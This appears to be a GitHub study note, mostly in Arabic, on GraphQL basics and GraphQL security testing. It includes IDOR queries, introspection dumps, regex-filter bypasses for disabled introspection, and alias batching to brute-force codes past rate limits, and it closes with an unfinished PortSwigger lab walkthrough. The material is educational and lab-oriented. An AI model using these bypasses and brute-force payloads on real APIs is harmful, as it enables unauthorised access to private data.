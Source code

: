 # GraphQL 

<details>
  <summary>what is GraphQL?</summary>


- <details>
      <summary>what is GraphQL & How it work?</summary>

  ## 🧠 ما هو GraphQL؟
  
  **GraphQL** هو لغة استعلام API (بديلة عن REST) تسمح للعملاء بطلب البيانات التي يحتاجونها فقط، مما:
  - يقلل من حجم الاستجابات.
  - يمنع تعدد الطلبات للحصول على بيانات من أكثر من مصدر.
  
  ---
  
  ## ⚙️ كيف يعمل GraphQL؟
  
  - يعتمد على **Schema** يحدد أنواع البيانات والعلاقات بينها.
  - يستخدم **نقطة نهاية واحدة فقط** (عادة POST).
  - جميع العمليات (queries/mutations/subscriptions) تُرسل إلى نفس الـ endpoint.
  
  ---
  
  ## 🔧 أنواع العمليات في GraphQL:
  
  | النوع         | الوظيفة                                       |
  |---------------|-----------------------------------------------|
  | **Query**     | لجلب البيانات                                  |
  | **Mutation**  | لإضافة أو تعديل أو حذف البيانات                |
  | **Subscription** | لإنشاء اتصال دائم لتحديث البيانات تلقائيًا  |
  
  ---
  
  ## 🟢 مميزات GraphQL:
  
  - عميل التطبيق يحدد **ما هي البيانات المطلوبة بالضبط**.
  - لا حاجة لمعرفة مكان البيانات أو كيفية تجميعها.
  - متوافق مع مختلف لغات البرمجة وقواعد البيانات.
  - الاستجابة تأتي بشكل **JSON منظم حسب الطلب**.
  
  ---
  
  ## 🔁 الفرق عن REST:
  
  | REST                      | GraphQL                                   |
  |---------------------------|--------------------------------------------|
  | عدة endpoints             | endpoint واحد فقط                         |
  | HTTP methods (GET, POST…) | POST فقط غالبًا                           |
  | استجابة كاملة              | استجابة مخصصة حسب الطلب فقط              |
  
  


  </details>









- <details>
      <summary>What is a GraphQL schema?</summary>
  
  
  
  ## 📘 ما هو GraphQL Schema؟
  
  **GraphQL Schema** هو العقد (Contract) بين الـ **Frontend** والـ **Backend** يوضح:
  - ما هي البيانات المتاحة.
  - ما هي أنواعها.
  - كيف يمكن استدعاؤها.
  
  ✅ يُكتب باستخدام **لغة تعريف بسيطة ومقروءة (SDL)**.
  
  ---
  
  ## 🧱 ما الذي يحتويه الـ Schema؟
  
  - **أنواع البيانات (Types)**: مثل `Product`, `User`, `Order`...
  - **الحقول (Fields)**: تمثل خصائص الكائنات (مثل name، id...).
  - **الأنواع الأساسية**: مثل `String`, `Int`, `Boolean`, `ID`
  - يمكن أن تكون الحقول:
    - **Object Type** (نوع مركب)
    - **Scalar Type** (نوع بسيط)
    - **Enum / Union / Interface / Custom Types**
  
  🔒 `!` يعني أن الحقل **إجباري (Non-nullable)**
  
  ---
  
  ## ✏️ مثال على تعريف Schema بسيط:
  
  ```graphql
  type Product {
    id: ID!
    name: String!
    description: String!
    price: Int
  }
  ```
  
  #### 📌 هذا يعرف نوع اسمه Product يحتوي على:
  
  - ``id``: معرف فريد (إجباري)
  
  - ``name``: اسم المنتج (إجباري)
  
  - ``description``: وصف (إجباري)
  
  - ``price``: السعر (اختياري)
  
  
  ## 🔍 مكونات إضافية في الـ Schema:
  
  يجب أن يحتوي على Query واحدة على الأقل (لجلب البيانات)
  
  عادةً يحتوي أيضًا على Mutations (لإضافة/تعديل/حذف بيانات)
  
  
  ## 💡 ملخص سريع:
  
  | العنصر           | الوصف                                   |
  | ---------------- | --------------------------------------- |
  | Schema           | يحدد شكل البيانات وكيف يتم الوصول إليها |
  | Types            | الكائنات التي يمكن استرجاعها أو تعديلها |
  | Fields           | خصائص كل كائن (الاسم، السعر، إلخ)       |
  | Non-nullable (!) | حقل إجباري لا يمكن أن يكون فارغًا       |
  
  



  </details>








- <details>
     <summary>What are GraphQL queries?</summary>
  
  
  ## 🔍 ما هي GraphQL Queries؟
  
  **GraphQL Queries** تُستخدم لاسترجاع البيانات من قاعدة البيانات أو مصدر البيانات.
  
  ✅ تشبه طلبات **GET** في REST APIs، لكنها:
  - أكثر مرونة
  - تُعيد فقط البيانات التي تطلبها
  
  ---
  
  ## 🧱 مكونات الاستعلام (Query):
  
  | العنصر                 | الوصف                                               |
  |-------------------------|------------------------------------------------------|
  | **نوع العملية (query)** | لتوضيح أن الطلب هو استعلام (اختياري لكن مفضل)       |
  | **اسم الاستعلام**       | لتسهيل التتبع والتصحيح (اختياري لكنه مفضل)          |
  | **الهيكلية المطلوبة**   | تحدد الحقول التي تريد استرجاعها                     |
  | **المعاملات (arguments)** | لتحديد عناصر معينة بناءً على شرط (مثل ID)            |
  
  ---
  
  ## ✏️ مثال على Query:
  
  ```graphql
  query myGetProductQuery {
    getProduct(id: 123) {
      name
      description
    }
  }
  ```
  
  
  ### 📌 هذا الاستعلام يطلب من الخادم:
  
  المنتج الذي معرفه ``123``
  
  ويطلب فقط الاسم والوصف
  
   > 💡 ملاحظة: حتى لو كان نوع Product يحتوي على حقول أكثر، فأنت تتحكم في ما يتم استرجاعه فقط.
  
  
  
  
  ## 📚 ملخص سريع:
  
  
  
  | المفهوم      | القيمة                                          |
  | ------------ | ----------------------------------------------- |
  | الاستعلام    | طلب بيانات من الخادم                            |
  | يشبه في REST | طلب `GET`                                       |
  | المرونة      | تطلب الحقول التي تحتاجها فقط                    |
  | المعاملات    | تُستخدم لتحديد بيانات معينة مثل `id`, `name`... |
  
  


  </details>







- <details>
     <summary>What are GraphQL mutations?</summary>
  
  
  ## 🔧 ما هي GraphQL Mutations؟
  
  **Mutations** تُستخدم لتعديل البيانات، وتشمل:
  - الإضافة (Create)
  - التعديل (Update)
  - الحذف (Delete)
  
  🟩 تقابل في REST:
  - `POST` / `PUT` / `DELETE`
  
  ---
  
  ## 🧱 مكونات الـ Mutation:
  
  | العنصر                   | الوصف                                                         |
  |---------------------------|----------------------------------------------------------------|
  | **نوع العملية (mutation)**| يُحدد أن العملية هي تعديل بيانات                              |
  | **اسم العملية**           | (اختياري لكنه مفيد) لتسهيل التتبع                             |
  | **المدخلات (Inputs)**     | يجب تمرير بيانات (قيم) لإجراء التعديل                         |
  | **الاستجابة**             | تحدد الحقول التي تريد إرجاعها بعد التعديل                     |
  
  ---
  
  ## ✏️ مثال على Mutation:
  
  ```graphql
  mutation {
    createProduct(name: "Flamin' Cocktail Glasses", listed: "yes") {
      id
      name
      listed
    }
  }
  ```
  
  
  ### 📌 هذا يقوم بـ:
  
  - إنشاء منتج جديد
  
  - يطلب من الخادم إرجاع id, name, و listed في الاستجابة
  
  
  
  
  ---
  
  ## 📥 مثال على الاستجابة:
  
  ```json
  {
    "data": {
      "createProduct": {
        "id": 123,
        "name": "Flamin' Cocktail Glasses",
        "listed": "yes"
      }
    }
  }
  ```
  
  
  
  ## 📚 ملخص سريع:
  
  | المفهوم      | القيمة                                       |
  | ------------ | -------------------------------------------- |
  | الغرض        | تعديل البيانات (إضافة، تعديل، حذف)           |
  | يشبه في REST | POST / PUT / DELETE                          |
  | يجب أن يحتوي | مدخلات (inputs)                              |
  | الاستجابة    | تحدد الحقول المراد إرجاعها بعد تنفيذ العملية |
  
  
  
  
  
  

     
  </details>













- <details>
     <summary>Components of queries and mutations</summary>

  
  
  # 📌 Components of GraphQL Queries and Mutations
  
  GraphQL يتكوّن من عناصر أساسية تُستخدم لجلب البيانات (queries) أو تعديلها (mutations).
  
  ---
  
  ## 🔸 Fields (الحقول)
  
  - كل نوع (Type) يحتوي على **Fields** يمكن استدعاؤها.
  - يمكنك تحديد فقط الحقول المطلوبة في الطلب.
  - الاستجابة تعكس ما طلبته بالضبط.
  
  ### ✅ مثال:
  
  ```graphql
  query myGetEmployeeQuery {
    getEmployees {
      id
      name {
        firstname
        lastname
      }
    }
  }
  ```

  ## Response

  ```json
      #Response
  
      {
          "data": {
              "getEmployees": [
                  {
                      "id": 1,
                      "name" {
                          "firstname": "Carlos",
                          "lastname": "Montoya"
                      }
                  },
                  {
                      "id": 2,
                      "name" {
                          "firstname": "Peter",
                          "lastname": "Wiener"
                      }
                  }
              ]
          }
      }
  ```

  ---
  
  ## 🔸 Arguments (المعاملات)
  
  - تُستخدم لتمرير قيم إلى الاستعلام.
  - تُحدَّد في الـ Schema.
  - تُساعد على جلب بيانات محددة.
  
  ### ✅ مثال:
  
  ```graphql
  query myGetEmployeeQuery {
    getEmployees(id: 1) {
      name {
        firstname
        lastname
      }
    }
  }
  ```

  ## response
  
  ```json
   #Response to query
  
      {
          "data": {
              "getEmployees": [
              {
                  "name" {
                      "firstname": Carlos,
                      "lastname": Montoya
                      }
                  }
              ]
          }
      }
  ```






  
  📌 **تنبيه:** يمكن أن تكون عرضة لهجمات مثل **IDOR** إذا لم يتم تأمين الوصول جيدًا.
  
  ---
  
  ## 🔸 Variables (المتغيرات)
  
  - تُستخدم لتمرير قيم ديناميكية بدلاً من وضعها مباشرة في الاستعلام.
  - تفصل بين **هيكل الاستعلام** و**قيم البيانات**.
  
  ### ✅ مثال:
  
  ```graphql
 
    #Example query with variable

    query getEmployeeWithVariable($id: ID!) {
        getEmployees(id:$id) {
            name {
                firstname
                lastname
            }
         }
    }

    Variables:
    {
        "id": 1
    }
  ```
  
 
  
  ---
  
  ## 🔸 Aliases (الأسماء البديلة)
  
  - تسمح بطلب نفس النوع أكثر من مرة في نفس الاستعلام.
  - تتجاوز القيود بأن يكون لكل خاصية اسم فريد.
  
  ### ❌ استعلام غير صحيح:
  
  ```graphql
 
    #Invalid query

    query getProductDetails {
        getProduct(id: 1) {
            id
            name
        }
        getProduct(id: 2) {
            id
            name
        }
    }
  ```
  
  ### ✅ استعلام صحيح باستخدام Aliases:
  
  ```graphql
  query getProductDetails {
    product1: getProduct(id: "1") {
      id
      name
    }
    product2: getProduct(id: "2") {
      id
      name
    }
  }
  ```

  ## response

  ```json

    #Response to query

    {
        "data": {
            "product1": {
                "id": 1,
                "name": "Juice Extractor"
             },
            "product2": {
                "id": 2,
                "name": "Fruit Overlays"
            }
        }
    }
  ```
  
  ---
  
  ## 🔸 Fragments (الأجزاء القابلة لإعادة الاستخدام)
  
  - تُستخدم لتعريف مجموعة من الحقول مرة واحدة.
  - تُساعد في تقليل التكرار وإعادة استخدام نفس البنية في عدة أماكن.
  
  ### ✅ مثال:
  
  ```graphql
  fragment productInfo on Product {
    id
    name
    listed
  }
  
 
  ```

  ## query calling fragment
  
  ```graphql
   #Query calling the fragment
  
      query {
          getProduct(id: 1) {
              ...productInfo
              stock
          }
      }
  ```
  
  ## response 
  
  ```json
     #Response including fragment fields
  
      {
          "data": {
              "getProduct": {
                  "id": 1,
                  "name": "Juice Extractor",
                  "listed": "no",
                  "stock": 5
              }
          }
      }
  ```


 
  ---
  
  ## 📚 ملخص سريع:
  
  | المكون       | الوظيفة الرئيسية                                                              |
  |--------------|--------------------------------------------------------------------------------|
  | Fields        | تحديد ما يجب استرجاعه من بيانات                                                |
  | Arguments     | تمرير قيم لتحديد أو تخصيص البيانات المطلوبة                                    |
  | Variables     | فصل القيم عن الاستعلام لسهولة التكرار والتعديل                                 |
  | Aliases       | إرسال نفس الطلب لنوع معين أكثر من مرة باستخدام أسماء بديلة                    |
  | Fragments     | تعريف أجزاء قابلة لإعادة الاستخدام في استعلامات أو Mutations متعددة           |
  
  





  </details>




- <details>
     <summary>Subscriptions & Introspection</summary>


  # 🔄 GraphQL Subscriptions & Introspection
  
  ## 🔸 Subscriptions
  
  **Subscriptions** هي نوع خاص من الاستعلامات (queries)، لكن الفرق الرئيسي هو أنها:
  - تُنشئ **اتصال دائم** بين العميل (Client) والخادم (Server)
  - تُستخدم لتلقي **تحديثات لحظية (Real-time)** من السيرفر دون الحاجة للاستعلام بشكل مستمر
  
  ### ✅ الفائدة الأساسية:
  - مناسبة للتحديثات السريعة والصغيرة مثل:
    - تطبيقات الدردشة (Chat apps)
    - تحرير المحتوى التعاوني (مثل Google Docs)
    - الإشعارات المباشرة
  
  ### ⚙️ طريقة العمل:
  - غالبًا يتم تنفيذها باستخدام **WebSockets**
  - تُحدد شكل البيانات المطلوبة مثل الاستعلامات العادية
  
  ---
  
  ## 🔍 Introspection
  
  **Introspection** هي ميزة مدمجة في GraphQL تسمح لك بـ:
  - الاستعلام عن معلومات حول **الـ Schema** نفسها
  - معرفة أنواع البيانات، الحقول، الاستعلامات المتاحة، الـ mutations، وغيرها
  
  ### ✅ تُستخدم في:
  - أدوات مثل **GraphQL Playground** أو **GraphiQL**
  - توليد التوثيق (Documentation)
  
  ### ⚠️ مخاطر أمنية:
  - يمكن أن تكشف **معلومات حساسة** عن الـ API
  - يمكن أن تساعد المخترق في معرفة كيفية التفاعل مع الـ API
  - 🔒 **يُنصح بإيقافها في بيئات الإنتاج (Production)**
  
  ---
  
  ## 📚 ملخص سريع:
  
  | العنصر         | الوصف                                                                 |
  |----------------|------------------------------------------------------------------------|
  | Subscriptions  | اتصال دائم من السيرفر للعميل لتحديث البيانات لحظيًا                     |
  | Introspection  | استعلام عن هيكل الـ GraphQL نفسه (Schema)                              |
  | تستخدم في      | الدردشة، التحديثات اللحظية، توثيق GraphQL                               |
  | المخاطر        | Introspection قد تكشف تفاصيل داخلية حساسة - يجب تعطيلها في الإنتاج     |
  """
  

  </details>





  
</details>





<details>
  <summary>Finding GraphQL endpoints</summary>



# 🔍 Discovering & Testing GraphQL Endpoints

قبل اختبار أي GraphQL API، لازم تلاقي أولًا **الـ endpoint** الخاص بيها. كل طلبات GraphQL تروح لنفس الـ endpoint، فمعرفته مهمة جدًا.

---

## 🧪 Universal Query

### ما هو؟
استعلام بسيط لاختبار إذا كان عنوان URL يحتوي على GraphQL endpoint.

### ✅ مثال:
```graphql
query { __typename }
```

### 📥 الاستجابة المتوقعة:
```json
{
  "data": {
    "__typename": "query"
  }
}
```

🔎 هذا يساعدك تتأكد إنك بتتعامل مع GraphQL.

---

## 📍 Common GraphQL Endpoints

جرب ترسل universal query لهذه المسارات:

- `/graphql`
- `/api`
- `/api/graphql`
- `/graphql/api`
- `/graphql/graphql`
- (أحيانًا) أضف `/v1` في النهاية مثل: `/api/graphql/v1`

---

## 📬 طرق إرسال الطلبات (Request Methods)

| الطريقة       | الحالة                                      |
|---------------|----------------------------------------------|
| `POST` + `application/json` | ✅ الأفضل والأكثر أمانًا                  |
| `GET` أو `POST` + `x-www-form-urlencoded` | 🚫 ممكن تكون متاحة في بعض التطبيقات |

🔒 من الأفضل أن تقبل فقط POST + JSON لتفادي **CSRF**.

---

## 🧭 كيفية التأكد من الـ Endpoint

- جرب كل المسارات المعروفة باستخدام universal query.
- لو رجع استجابة بـ "query not present" أو شبيه، ده غالبًا GraphQL.
- غير طرق الطلب وشوف الاستجابة.

---

## 🧰 أدوات مساعدة

- **Burp Scanner**: بيقدر يكتشف GraphQL endpoints تلقائيًا.
  - يظهر إشعار "GraphQL endpoint found" لو تم اكتشافه.

- **Burp Proxy**:
  - استخدم المتصفح المدمج في Burp.
  - راقب HTTP History وشوف الطلبات اللي بيتم إرسالها.
  - كده تقدر تشوف استعلامات GraphQL الحقيقية في التطبيق.

---

## 📚 ملخص سريع:

| العنصر               | التوضيح                                                        |
|------------------------|----------------------------------------------------------------|
| Universal Query        | استعلام بسيط للتأكد من وجود GraphQL                          |
| Common Endpoints       | مسارات متكررة غالبًا تستخدمها الخدمات                        |
| طرق HTTP               | جرب POST + JSON أولًا، ثم طرق أخرى لو فشلت                    |
| أدوات الكشف           | Burp Suite مفيد جدًا في تحليل واستكشاف واجهات GraphQL         |


  
</details>










<details>
  <summary>Exploiting unsanitized arguments</summary>


  
  # ⚠️ Exploiting Unsanitized Arguments in GraphQL
  
  في مرحلة اختبار الأمان، من الجيد البدء باختبار **المعاملات (arguments)** داخل الاستعلامات. بعض التطبيقات تكون معرضة لثغرات **الوصول غير المصرح به** أو ما يُعرف بـ **IDOR**.
  
  ---
  
  ## ❗ ما هي ثغرة IDOR في GraphQL؟
  
  - تحدث عندما يُسمح للمستخدم بطلب كائن باستخدام معرف (ID) دون التأكد من صلاحياته.
  - المستخدم قد يصل إلى بيانات لا يملك إذنًا لرؤيتها فقط عن طريق تغيير قيمة الـ ID.
  
  ---
  
  ## 🎯 مثال عملي:
  
  ### 🔹 استعلام يعرض المنتجات المتاحة فقط:
  
  ```graphql
  query {
    products {
      id
      name
      listed
    }
  }
  ```
  
  ### 🔹 استجابة توضح المنتجات المتاحة فقط:
  
  ```json
  {
    "data": {
      "products": [
        { "id": 1, "name": "Product 1", "listed": true },
        { "id": 2, "name": "Product 2", "listed": true },
        { "id": 4, "name": "Product 4", "listed": true }
      ]
    }
  }
  ```
  
  📌 الملاحظة:
  - المنتج ذو ID رقم 3 غير ظاهر. من المحتمل أنه **غير مُدرج** أو محجوب.
  
  ---
  
  ## 🕵️‍♂️ محاولة الوصول للمنتج الغير ظاهر:
  
  ```graphql
  query {
    product(id: 3) {
      id
      name
      listed
    }
  }
  ```
  
  ### 🧨 استجابة غير متوقعة:
  
  ```json
  {
    "data": {
      "product": {
        "id": 3,
        "name": "Product 3",
        "listed": false
      }
    }
  }
  ```
  
  ✅ يعني أنه لا يوجد تحقق من صلاحيات المستخدم، وقدرنا نوصل لمنتج **غير ظاهر للعامة**.
  
  ---
  
  ## 🚨 الملخص:
  
  | العنصر              | التوضيح                                                  |
  |---------------------|-----------------------------------------------------------|
  | نوع الهجوم         | Insecure Direct Object Reference (IDOR)                   |
  | السبب              | عدم وجود تحقق من صلاحيات المستخدم عند استخدام المعاملات   |
  | النتيجة المحتملة   | الوصول إلى بيانات حساسة أو غير معلنة                      |
  | الطريقة            | تغيير قيمة الـ ID أو معلمة في الاستعلام يدويًا            |
  
  ---
  
  ## 🔐 التوصية للمطورين:
  
  - تأكد دائمًا من صلاحيات المستخدم قبل جلب الكائنات الحساسة.
  - لا تعتمد فقط على أن الاستعلام لا يُرجع البيانات في بعض الحالات.
  - راجع التحكم بالوصول (Access Control) بدقة.
  
  
  
    
</details>






<details>
  <summary>Discovering schema information</summary>




# 🧠 Discovering Schema Information in GraphQL

الخطوة التالية بعد الوصول لنقطة النهاية (endpoint) في GraphQL هي **اكتشاف معلومات المخطط (schema)** لفهم كيفية التفاعل مع الـ API.

---

## 🔍 ما هي Introspection؟

- Introspection هي ميزة مدمجة في GraphQL تتيح لك الاستعلام عن معلومات حول المخطط (schema).
- تُستخدم لفهم أنواع البيانات المتاحة، والاستعلامات (queries)، والتحويلات (mutations)، والاشتراكات (subscriptions)، وحتى الأوصاف الخاصة بها.

---

## ✨ فائدة Introspection

| الفائدة                         | التوضيح |
|--------------------------------|---------|
| فهم البنية الكاملة للـ API     | تعرف ما هي الأنواع والاستعلامات والحقول المتوفرة |
| كشف معلومات حساسة محتملة      | مثل الأوصاف أو الأسماء الداخلية التي لم تُنشر للعامة |
| تستخدمها أدوات التوثيق IDEs   | مثل GraphQL Playground و Postman و Burp Scanner |

---

## 🚀 استخدام introspection

### ✅ استعلام بسيط للتأكد من تفعيل introspection:

```json
{
  "query": "{__schema{queryType{name}}}"
}
```

📌 إذا استرجعت أسماء الاستعلامات، فإن introspection مفعلة.

---

## 📜 استعلام Introspection كامل

إذا أردت استخراج كل تفاصيل المخطط:

```graphql

    #Full introspection query

    query IntrospectionQuery {
        __schema {
            queryType {
                name
            }
            mutationType {
                name
            }
            subscriptionType {
                name
            }
            types {
             ...FullType
            }
            directives {
                name
                description
                args {
                    ...InputValue
            }
            onOperation  #Often needs to be deleted to run query
            onFragment   #Often needs to be deleted to run query
            onField      #Often needs to be deleted to run query
            }
        }
    }

    fragment FullType on __Type {
        kind
        name
        description
        fields(includeDeprecated: true) {
            name
            description
            args {
                ...InputValue
            }
            type {
                ...TypeRef
            }
            isDeprecated
            deprecationReason
        }
        inputFields {
            ...InputValue
        }
        interfaces {
            ...TypeRef
        }
        enumValues(includeDeprecated: true) {
            name
            description
            isDeprecated
            deprecationReason
        }
        possibleTypes {
            ...TypeRef
        }
    }

    fragment InputValue on __InputValue {
        name
        description
        type {
            ...TypeRef
        }
        defaultValue
    }

    fragment TypeRef on __Type {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
                ofType {
                    kind
                    name
                }
            }
        }
    }
```

🔧 ملاحظة: احذف `onOperation`, `onFragment`, `onField` إن ظهرت لك أخطاء.

---

## 📊 أدوات لتسهيل الفهم

- **GraphQL Visualizer**: يعرض علاقات المخطط بطريقة رسومية.
- **Burp Suite**: يمكنه توليد استعلام introspection واكتشاف التوجيهات والمخطط.
- **Clairvoyance**: أداة تقوم بجمع معلومات المخطط من **الاقتراحات** حتى لو كان introspection معطل.

---

## 💬 ماذا عن الاقتراحات؟

- تستخدم بعض الخوادم مثل Apollo GraphQL ميزة **الاقتراحات الذكية**.
- عند وجود خطأ بسيط في اسم الحقل، يقترح الاسم الصحيح.
- يمكن استغلال هذه الميزة لاستخراج المخطط جزئياً.

🔍 مثال:
> There is no entry for 'productInfo'. Did you mean 'productInformation'?

🛡️ لا يمكن تعطيل الاقتراحات مباشرةً في Apollo، ولكن هناك بعض الحيل في GitHub لتعطيلها.

---

## 📌 ملاحظات أمنية

| الجانب الأمني       | التوصية |
|---------------------|---------|
| introspection       | يجب تعطيله في بيئة الإنتاج |
| الاقتراحات          | تجنب تمكينها أو قم بفحص الردود بدقة |
| Burp Scanner        | يمكنه اختبار introspection والاقتراحات تلقائيًا |





  
</details>







<details>
  <summary>Bypassing GraphQL introspection defenses</summary>


# 🔍 Bypassing GraphQL Introspection Defenses

When developers try to secure GraphQL APIs by disabling **introspection**, they often rely on naive regex filters that block any query containing `__schema`. However, these filters can be bypassed in clever ways.




---

## 🔐 What Developers Do (Wrongly)

To prevent this, developers often filter out requests containing `__schema` or `__introspection`, using regular expressions.

Example:
```regex
/__schema{/
```

This blocks simple introspection queries... **but only the exact format.**

---

## 💥 Bypass Techniques

### 1. Inject Special Characters

GraphQL **ignores whitespaces, new lines, and commas**.

But naive regex filters don’t. So, by inserting harmless characters, you bypass the filter.

#### Example: Using a Newline Character

```json
{
  "query": "query{__schema
{queryType{name}}}"
}
```

#### Why this works:

- The developer's regex blocks `__schema{`
- But `__schema
{` doesn’t match their pattern
- Yet GraphQL still parses it correctly ✅

---

### 2. Try Alternative Request Methods

Developers may only disable introspection on POST requests.

Try:

#### ▶ GET Request with URL-Encoded Introspection Query

```http
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

Decoded:
```graphql
query {
  __schema
  {
    queryType {
      name
    }
  }
}
```

#### ▶ POST Request with Form URL-Encoded Body

```http
POST /graphql
Content-Type: application/x-www-form-urlencoded

query=query{__schema{queryType{name}}}
```

---

## 🧠 Extra Tips

- Save results to your Burp Suite **Site Map** for later analysis
- Combine this with tools like **GraphQL Voyager**, **InQL**, or **GraphQLmap** to visualize the schema
- Once schema is found, try:
  - Sensitive queries (email, password, tokens)
  - Mutations that may allow actions like reset, delete, or admin escalation

---

## 🛠 Want to Automate This?

You can easily script these bypass attempts using **Python + requests** to iterate over multiple bypass formats and content-types.

Let me know if you want the script.

---

## ✅ Goal

Get access to the full GraphQL schema **even if introspection is "disabled".**
This enables a full map of the API surface for further exploitation.

---

Stay sneaky 😎

  
</details>






<details>
  <summary>Bypassing rate limiting using aliases</summary>



# 🚀 Bypassing Rate Limiting using GraphQL Aliases

## 📌 المشكلة الأساسية: Rate Limiting
- الـ **Rate Limiting** هو نظام بيحط قيود على عدد الـ **requests** اللي تقدر تبعتها للـ API خلال فترة زمنية معينة.  
  **مثال:**
  - مسموح لك تبعت **5 requests في الدقيقة**.
  - لو بعت أكتر، السيرفر هيبدأ يرد عليك برسالة زي:  
    ```
    429 Too Many Requests
    ```
- الهدف منه إنه يمنع هجمات **brute force** أو **DoS attacks**.

---

## 📌 GraphQL وموضوع الـ Aliases
- في GraphQL، العادي إنك **ماينفعش تكرر نفس الـ field مرتين** في نفس الـ query.  
  **مثال (❌ غلط):**
  ```graphql
   query {
       isValidDiscount(code: 123)
       isValidDiscount(code: 456)
   }
  ```
  هيطلع لك Error لأنك كررت `isValidDiscount`.

---

## 📌 الحل → Aliases
- **Aliases** في GraphQL بتسمح لك إنك **تدي اسم مختلف لكل field**، حتى لو نفس الـ function أو الـ resolver.  
  **مثال (✅ صح):**
  ```graphql
  query {
      discount1: isValidDiscount(code: 123) {
          valid
      }
      discount2: isValidDiscount(code: 456) {
          valid
      }
      discount3: isValidDiscount(code: 789) {
          valid
      }
  }
  ```

هنا:
- `discount1` → هي alias للـ `isValidDiscount` الأول.
- `discount2` → alias تاني.
- وهكذا...

---

## 📌 إزاي ده بيكسر Rate Limiting؟
- بعض أنظمة الـ **Rate Limiting** بتحسب **عدد الـ requests** بس، مش **عدد العمليات الداخلية في GraphQL**.
- **GraphQL Aliases** بتخليك تبعت **Request واحدة** فيها **عمليات كتير**.

### 📍 **مثال حقيقي:**
بدل ما تبعت 100 طلب بالشكل ده:
```graphql
query {
    isValidDiscount(code: 123)
}
```
تبعت طلب واحد بس كده:
```graphql
query {
    d1: isValidDiscount(code: 123) { valid }
    d2: isValidDiscount(code: 124) { valid }
    d3: isValidDiscount(code: 125) { valid }
    d4: isValidDiscount(code: 126) { valid }
    d5: isValidDiscount(code: 127) { valid }
    ...
    d100: isValidDiscount(code: 222) { valid }
}
```

🔹 **النتيجة:**
- السيرفر شايف إن ده **Request واحد** → وبالتالي مش هيوقفك بالـ rate limiter.  
- إنت فعليًا عملت **brute force** جوه الـ API من غير ما تتقيد بعدد الـ requests.

---

## 📌 سيناريو عملي (تخيل تحدي CTF):
لو عندك endpoint في GraphQL بيتأكد من كود خصم:
```graphql
query {
    isValidDiscount(code: "12345") {
        valid
    }
}
```
بدلاً من تبعت كود واحد في كل Request → تبعت 50 كود في Request واحدة:
```graphql
query {
    check1: isValidDiscount(code: "11111") { valid }
    check2: isValidDiscount(code: "22222") { valid }
    check3: isValidDiscount(code: "33333") { valid }
    check4: isValidDiscount(code: "44444") { valid }
    check5: isValidDiscount(code: "55555") { valid }
}
```

🔹 **كده لو فيه كود صحيح، هتعرفه بسرعة كبيرة من غير ما تتوقف بالـ rate limiting.**

---

## 📌 الخلاصة:
- **Aliases** في GraphQL وسيلة لتسمية نفس العملية بأسماء مختلفة.
- تقدر تستغلها علشان **تعمل brute force في طلب واحد بس**.
- ده بيكسر أنظمة rate limiting الضعيفة لأنها بتحسب عدد الـ requests مش العمليات الداخلية.





  
</details>































































































































----
----


# **``GraphQL Labs``**



<details>
  <summary>Lab: Accessing private GraphQL posts</summary>

> ### The blog page for this lab contains a hidden blog post that has a secret password. To solve the lab, find the hidden blog post and enter the password. 


---

1. active **``burp live passive Crawl``**

<img width="400" height="168" alt="image" src="https://github.com/user-attachments/assets/1aabdb2e-2be3-419d-8f5e-5cbbf23f341b" />

**``Found``**


```http
POST /graphql/v1 HTTP/2
Host: 0a840000031c9eaf83cdf5c7001700fe.web-security-academy.net
Cookie: session=6rY0h8IeXuTOu3Viib6k5KsJYOZNxku1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a840000031c9eaf83cdf5c7001700fe.web-security-academy.net/post?postId=2
Content-Type: application/json
Content-Length: 249
Origin: https://0a840000031c9eaf83cdf5c7001700fe.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers



{"query":"\n    query getBlogPost($id: Int!) {\n        getBlogPost(id: $id) {\n            image\n            title\n            author\n            date\n            paragraphs\n        }\n    }","operationName":"getBlogPost","variables":{"id":2}}
```


find introspection

simple one to check

<img width="1524" height="476" alt="image" src="https://github.com/user-attachments/assets/403cf877-4073-4ec6-becb-c926c3b227a0" />


> Don't forget to convert form ``graphql`` to ``json`` 

[From_graphql_2_json](https://datafetcher.com/graphql-json-body-converter)

```json
{

  "query": " query IntrospectionQuery { __schema { queryType { name } mutationType { name } subscriptionType { name } types { ...FullType } directives { name description args { ...InputValue } } } } fragment FullType on __Type { kind name description fields(includeDeprecated: true) { name description args { ...InputValue } type { ...TypeRef } isDeprecated deprecationReason } inputFields { ...InputValue } interfaces { ...TypeRef } enumValues(includeDeprecated: true) { name description isDeprecated deprecationReason } possibleTypes { ...TypeRef } } fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue } fragment TypeRef on __Type { kind name ofType { kind name ofType { kind name ofType { kind name } } } }"

}
```

<img width="1570" height="723" alt="image" src="https://github.com/user-attachments/assets/3104cd2c-b626-4eae-9ff3-f741a7135f57" />


> ### put output to visulizer

[graphql_visulaize3r](http://nathanrandal.com/graphql-visualizer/)


<img width="848" height="657" alt="image" src="https://github.com/user-attachments/assets/40ebcb57-fe05-4ba5-906c-31ec3f82fb39" />


Try to read content of ``postPassword`` of all posts

```graphql
query {
  getAllBlogPosts {
    id
    title
    postPassword
  }
}
```

but if you notice that there ar id form ``1`` to ``5`` exept **``3``** this might be it's ``isPrivate: Boolean!`` is true

<img width="1527" height="622" alt="image" src="https://github.com/user-attachments/assets/6546c0c4-2f1a-4cac-990c-05e145d21c22" />

so if i use the first query and try to see password 

```json
